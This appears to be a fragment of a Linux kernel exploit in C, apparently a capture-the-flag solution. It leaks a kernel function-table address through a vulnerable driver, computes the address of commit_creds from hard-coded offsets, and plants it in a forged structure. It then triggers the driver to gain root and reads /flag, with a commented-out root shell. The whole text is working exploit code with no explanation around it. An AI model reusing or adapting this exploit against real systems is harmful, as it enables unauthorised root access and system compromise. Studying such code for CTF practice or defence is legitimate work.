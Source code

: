 ```c
    r.id = 2;   
    Dump(fd, &r); // dump chunk 2 to leak kkk_fops

    uint64_t kernel_addr = *(uint64_t *)(sendbuf + 0x8); // 0xffffffff812258e0
    uint64_t commit_creds = kernel_addr - 0xffffffff812258e0 + 0xffffffff8109bcf0;
    // printf("[+] kernel_addr: 0x%lx\n", kernel_addr);
    // printf("[+] commit_creds: 0x%lx\n", commit_creds);

    r.id = 1;
    my_memset(recvbuf, 0, 0x10000);

    uint64_t *ptr = (uint64_t *)(recvbuf + 0x90);
    ptr[0] = 4;
    ptr[1] = 0;
    ptr[2] = 0;
    ptr[3] = 0;
    ptr[4] = 0;
    ptr[5] = commit_creds;

    ptr[6] = 0x1FFFFFFFFF;
    ptr[7] = 0x1FFFFFFFFF;
    ptr[8] = 0x1FFFFFFFFF;

    ptr[15] = slub_addr;
    // ptr[16] = 0xffffffff8284ef80;
    // ptr[17] = 0xffffffff8284f020;
    ptr[17] = commit_creds - 0xffffffff8109bcf0 + 0xffffffff8284f020;
    // ptr[18] = 0xffffffff82850e20;
    // ptr[19] = 0xffffffff82850610;
    Update(fd, &r);

    // getchar();
    r.id = 2;
    Run(fd, &r);    // trigger encryption, get root.

    // printf("[+] Current UID: %d\n", getuid());
    // if (getuid()==0){
        // printf("[+] Root now!!!\n");
        // getchar();
    char buf2[0x10] = "/flag";
    int tmpfd = __asm_my_open(buf2, O_RDONLY);
        // if(tmpfd<0){
        //     printf("[-] Open error...");
        //     exit(0);
        // }
    __asm_my_read(tmpfd, buf, 0x40);
    __asm_my_write(1, buf, 0x40);
    // }

    // while(1);

    // system("/bin/sh");
    return;
}
```
